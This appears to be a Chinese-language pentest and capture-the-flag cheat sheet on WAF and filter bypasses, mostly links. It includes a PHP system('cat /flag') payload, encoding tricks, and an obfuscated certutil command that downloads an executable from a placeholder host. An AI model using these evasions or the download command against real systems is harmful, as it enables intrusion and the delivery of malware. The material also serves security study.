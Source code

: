 # Web bypass

- [Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)
- 空格绕过 `a=system ('cat /flag');`
- 大小写绕过
- %0a 绕过
- unicode 绕过, `t => \u0074`
- ~ 反码绕过
- [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
- splstack 绕过匹配 O 开头的序列化数据； [2023 安洵杯 4 号的罗纳尔多](https://mp.weixin.qq.com/s/azbY19cBgs3MgVdo7i-OhQ)
- \_\_halt_compiler();来结束 php 代码执行流程 同上链接
- [详细|waf 绕过学习](https://mp.weixin.qq.com/s/OeZsKohqe87-ieIuW7L9tA)

[sql 注入 bypass waf 工具（1 月 18 日更新）](https://mp.weixin.qq.com/s/qritLmRwP-Q5OLskxNWSVw)
[Sql注入过安全狗](https://mp.weixin.qq.com/s/Ighou2aYORZ7rGvJfpeeHg)
[实战绕过某WAF+拿shell组合拳](https://mp.weixin.qq.com/s/Q57dOjq279kqOFtSA1mV8Q)
[webshell检测算法实践](https://mp.weixin.qq.com/s/M4umpduFCI50zOO-5080cw)

# Cmd bypass

```sh
c""""e""""r""""t""""u""""t""""i""""l.exe -urlcache -split -f http://ip/6666.exe 6666.exe

copy /b 1.jpg+2.jpg 3 /y

```


# Linux shell

[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)
